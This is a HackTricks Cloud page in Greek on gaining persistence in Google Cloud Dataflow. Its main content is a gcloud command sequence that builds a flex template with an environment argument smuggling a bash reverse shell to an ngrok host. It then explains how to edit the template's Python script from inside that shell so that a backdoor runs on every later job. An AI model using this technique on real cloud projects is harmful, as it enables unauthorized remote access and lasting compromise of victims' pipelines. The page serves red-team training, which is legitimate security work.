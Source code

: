 # GCP - Dataflow Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Dataflow

### Αόρατη επιμονή σε ενσωματωμένο κοντέινερ

Ακολουθώντας το [**tutorial από την τεκμηρίωση**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) μπορείτε να δημιουργήσετε ένα νέο (π.χ. python) flex template:
```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
--repository-format=docker \
--location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
--image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
--sdk-language "PYTHON" \
--flex-template-base-image "PYTHON3" \
--metadata-file "metadata.json" \
--py-path "." \
--env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
--env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
--env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
--env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
--region=us-central1
```
**Ενώ χτίζεται, θα λάβετε ένα reverse shell** (μπορείτε να εκμεταλλευτείτε τις μεταβλητές περιβάλλοντος όπως στο προηγούμενο παράδειγμα ή άλλες παραμέτρους που ρυθμίζουν το Docker file για να εκτελέσετε αυθαίρετα πράγματα). Σε αυτή τη στιγμή, μέσα στο reverse shell, είναι δυνατόν να **πάτε στον φάκελο `/template` και να τροποποιήσετε τον κώδικα του κύριου python script που θα εκτελεστεί (στο παράδειγμά μας αυτό είναι το `getting_started.py`)**. Ρυθμίστε την backdoor σας εδώ ώστε κάθε φορά που εκτελείται η εργασία, να την εκτελεί.

Τότε, την επόμενη φορά που θα εκτελείται η εργασία, το συμβιβασμένο container που έχει χτιστεί θα εκτελείται:
```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
--template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
--parameters=output="gs://$REPOSITORY/out" \
--region=us-central1
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
